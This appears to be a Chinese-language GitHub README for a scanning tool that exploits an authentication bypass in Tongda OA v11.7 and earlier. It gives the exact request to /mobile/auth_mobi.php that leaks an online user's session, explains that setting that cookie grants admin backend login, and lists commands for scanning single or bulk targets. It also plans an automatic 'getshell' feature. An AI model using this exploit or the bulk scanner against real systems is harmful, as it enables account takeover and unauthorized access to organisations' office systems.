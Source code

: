 # 漏洞简述

通达OA v11.7 中存在某接口查询在线用户，当用户在线时会返回 PHPSESSION使其可登录后台系统

# 影响版本

通达OA < v11.7

# 漏洞利用

检测当前用户是否存在线

```
http://127.0.0.1/mobile/auth_mobi.php?isAvatar=1&uid=1&P_VER=0
```

> 不在线

不在线显示 `RELOGIN`

![](./image/1.png)

> 在线

在线页面空白，但已拿到`SESSION`

![](./image/2.png)

设置Cookie可直接登录后台

```
http://127.0.0.1/general/index.php
```

# 工具利用

[https://github.com/S1xHcL/TongDa_Scan](https://github.com/S1xHcL/TongDa_Scan)

```
# 指定 URL
python3 .\TongDa_Scan.py -u 127.0.0.1

# 指定 uid 进行扫描
python3 .\TongDa_Scan.py -u 127.0.0.1 -i 1

# 批量扫描，默认扫描UID为1
python3 .\TongDa_Scan.py -f ./list.txt
```

# 待更新

1. 多线程，加快扫描速度
2. 自动getshell

# 引用

[通达OA v11.7 在线用户登录漏洞 · PeiQi WiKi文库](http://wiki.peiqi.tech/PeiQi_Wiki/OA%E4%BA%A7%E5%93%81%E6%BC%8F%E6%B4%9E/%E9%80%9A%E8%BE%BEOA/%E9%80%9A%E8%BE%BEOA%20v11.7%20%E5%9C%A8%E7%BA%BF%E7%94%A8%E6%88%B7%E7%99%BB%E5%BD%95%E6%BC%8F%E6%B4%9E.html)
